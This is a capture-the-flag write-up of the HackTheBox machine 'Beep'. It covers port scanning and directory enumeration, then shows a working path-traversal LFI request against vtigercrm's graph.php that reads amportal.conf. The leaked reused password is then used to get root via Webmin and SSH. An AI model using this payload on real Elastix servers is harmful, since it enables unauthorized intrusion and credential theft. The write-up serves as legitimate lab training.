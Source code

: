 # Beep | HackTheBox

### 1. Scan
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-ah8tqg4ksh]─[~]
└──╼ [★]$ nmap -A -p- -T4 10.129.1.226
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-14 06:56 UTC
Nmap scan report for 10.129.1.226
Host is up (0.22s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.129.1.226/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open  pop3?
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap?
443/tcp   open  ssl/https?
|_ssl-date: 2020-12-14T08:18:16+00:00; +1h03m38s from scanner time.
942/tcp   open  status     1 (RPC #100024)
993/tcp   open  imaps?
995/tcp   open  pop3s?
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve?
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax?
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Host: 127.0.0.1

Host script results:
|_clock-skew: 1h03m37s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1309.35 seconds
```
The machine is running SSH, an Apache server running SSL (80/443), an Asterisk Call Manager service on port 5038 , another HTTP service on port 10000 and then some other services which nmap attempted to identify.

### 2. Enumeration
Starting with the main web server on 80/443, the main page is a login from to Elastix, which is a communications server software to enable stuff like IP PBX, email, IM and fax. Each function is controlled by another service. No default creds work for the login.  
I use gobuster to search for other directories from the root:
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-o7n31ucdvi]─[~]
└──╼ [★]$ gobuster dir -u https://10.129.1.226 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 30 -k===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.129.1.226
[+] Threads:        30
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/14 10:46:40 Starting gobuster
===============================================================
/images (Status: 301)
/help (Status: 301)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
/vtigercrm (Status: 301)
===============================================================
2020/12/14 12:32:27 Finished
===============================================================
```
By trying to go to /admin, I get prompted for more credentials in a popup window. I try more default creds and get an "unauthorized" message, but I also get the version of the application the admin panel is for: `FreePBX 2.8.14`.  
  
Additionally I look into the other discorvered folders and find the following:
- /mail: roundcube webmail
- /lang: has different language text for Elastix, this does indicate it is Elastix 1.0, but no way to tell how accurate that is. Might be just the language files dont change between versions.
- /panel: "Flash Operator Panel" for Asterisk, appears to need Shockwave Flash (maybe this really is 1.0)- /recordings: Another login form, this time it's just the non-admin FreePBX 2.5 form.  
  
While I'm at it, port 10000 is the Webmin login page. Webmin is a system configuration tool for Linux, allowing administrators to manage the server via the web. I can't find any version information.
  

### 3. Read some files
After a few tests I try exploiting a local file inclusion vulnerability in graph.php, which is part of a CRM called vtiger used for Elastix. I navigated to https://10.129.1.226/vtigercrm/ and found another login page for it. I continue with the exploit (detailed as part of an exploit script at https://www.exploit-db.com/exploits/37637), browsing to graph.php and getting LFI through the current_language parameter. Using a proxy made this easy to exploit and tweak. Here is the request that worked:
```bash
GET /vtigercrm/graph.php?current_language=../../../../../../../../etc/amportal.conf%00&module=Accounts&action HTTP/1.1
Host: 10.129.1.226
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: elastixSession=h8j1m5gu2rtj86r811uggin792; testing=1; PHPSESSID=jkdbb0qf8h099h6b94ta74nf36; ARI=qku5175lnonksij0jggibbffn5
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Cache-Control: max-age=0
```
Retrieving the amportal.conf file (as done in the proof of concept) is great because it gives me some credentials including:
- Asterisk SQL: `asteriskuser:jEhdIekWmdjE`
- Asterisk portal: `admin:jEhdIekWmdjE`
- Flash operator panel password: `jEhdIekWmdjE`
- ARI admin password: `jEhdIekWmdjE`  
It is clear there is heavy credential reuse on the machine. Knowing this, and knowing the webmin portal allows access to an admin user with the username root (by default), I can attempt to use this password to log in.

### 4. Get a shell
With the credentials `root:jEhdIekWmdjE` I can log into the webmin panel, which ends up giving me root access to the machine. I can do everything, including use a web command shell where I can verify I am root. Additionally I can SSH into the machine, after specifying a supported algorithm.
```bash
─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-o7n31ucdvi]─[~]
└──╼ [★]$ ssh root@10.129.1.226
Unable to negotiate with 10.129.1.226 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1

─[us-dedivip-1]─[10.10.14.110]─[htb-jib1337@htb-o7n31ucdvi]─[~]
└──╼ [★]$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 root@10.129.1.226
The authenticity of host '10.129.1.226 (10.129.1.226)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.1.226' (RSA) to the list of known hosts.
root@10.129.1.226's password: 
Last login: Tue Sep 29 12:10:12 2020

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.129.1.226

[root@beep ~]# whoami
root
```
